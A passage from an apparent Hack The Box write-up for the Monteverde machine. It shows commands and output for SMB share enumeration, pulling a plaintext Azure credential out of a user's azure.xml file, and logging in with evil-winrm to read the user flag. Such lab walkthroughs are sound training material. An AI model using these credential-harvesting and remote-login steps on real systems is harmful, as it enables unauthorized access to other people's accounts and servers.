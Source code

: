 While checking the home directories on the server, we find an Azure XML file with another password: `4n0therD4y@n0th3r$`
```
root@kali:~/htb/monteverde# smbclient -U SABatchJobs //10.10.10.172/Users$
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020

		524031 blocks of size 4096. 519955 blocks available
smb: \> cd mhope
smb: \mhope\> dir
  .                                   D        0  Fri Jan  3 08:41:18 2020
  ..                                  D        0  Fri Jan  3 08:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 08:40:23 2020

		524031 blocks of size 4096. 519955 blocks available
smb: \mhope\> get azure.xml
getting file \mhope\azure.xml of size 1212 as azure.xml (12.9 KiloBytes/sec) (average 12.9 KiloBytes/sec)
smb: \mhope\> exit
root@kali:~/htb/monteverde# cat azure.xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

We can now connect via WinRM to the server as user `mhope`:

```
root@kali:~/htb/monteverde# evil-winrm -u mhope -p 4n0therD4y@n0th3r$ -i 10.10.10.172

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> type ..\desktop\user.txt
4961976bd7[...]
```
